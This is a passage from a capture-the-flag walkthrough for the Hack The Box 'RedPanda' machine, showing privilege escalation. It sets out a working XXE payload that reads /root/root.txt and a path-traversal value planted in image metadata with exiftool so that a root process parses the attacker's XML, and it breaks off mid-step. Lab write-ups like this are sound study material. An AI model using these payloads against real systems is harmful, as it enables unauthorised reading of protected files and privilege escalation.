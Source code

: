 
I review all the injection points that we have at this point to build an attack:

```java
String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
File jpgFile = new File(fullpath);

String xmlPath = "/credits/" + artist + "_creds.xml";
```

- Root is opening and writting an XML file.
- We can inject a path using the artist metadata and change the XML file (_xmlPath_) that the app (with root permissions) reads.
- We can inject a path using the URI (_fullpath_) for the jpg file (and artist metadata) to take whatever artist we want.


So the attack will consist of creating an XML file with [XXE payload](https://github.com/payloadbox/xxe-injection-payload-list) to exfiltrate any file in the system. I'm going to retrieve the flag from the root. The following basic XXE will do the job:


- Build the XML file that the root is going to open:

```bash
nano /tmp/mir_creds.xml
```

```xml

<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/root.txt"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

- Create an image with the custom artist. The artist will be injected like depicted bellow:

/credits/ + artist + \_creds.xml

/credits/**../tmp/mir**\_creds.xml

On our machine, we edit the artist metadata and then upload it to the tmp folder:

```bash
exiftool -artist=../tmp/mir masterpiece.jpg
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/6_0_masterpiece.png" width="70%"/>
</p>


- Create a request to get logged in the file with a malicious URI:

The JPG path will be retrieved from the URI on the request logs and placed here:

/opt/panda_search/src/main/resources/static + uri

Then, the following string will go to the photo we will upload at tmp/masterpiece.png
